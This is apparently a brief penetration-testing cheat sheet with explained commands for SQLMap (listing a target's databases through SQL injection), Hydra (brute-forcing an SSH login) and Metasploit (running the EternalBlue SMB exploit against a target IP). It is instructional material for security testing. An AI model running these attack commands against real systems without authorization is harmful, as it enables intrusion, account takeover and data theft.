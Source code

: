 
### SQLMap

Automate SQL injection testing.

#### Test for SQL Injection
```bash
sqlmap -u "http://example.com/page?id=1" --dbs
```

**Explanation:**
- Replace the URL with the target URL.
- `--dbs` lists all databases on the target.

---

### Hydra

Perform brute-force attacks.

#### Brute-Force SSH Login
```bash
hydra -l username -P passwords.txt ssh://target.com
```

**Explanation:**
- `-l`: Specify the username.
- `-P`: Specify the password list.
- Replace `target.com` with the target IP or domain.

---

### Metasploit Framework

Exploit vulnerabilities in systems.

#### Start Metasploit Console
```bash
msfconsole
```

#### Search for Exploits
```bash
search exploit/windows/smb/ms17_010_eternalblue
```

#### Use an Exploit
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target_ip
exploit
```

**Explanation:**
- Replace `target_ip` with the target IP address.

---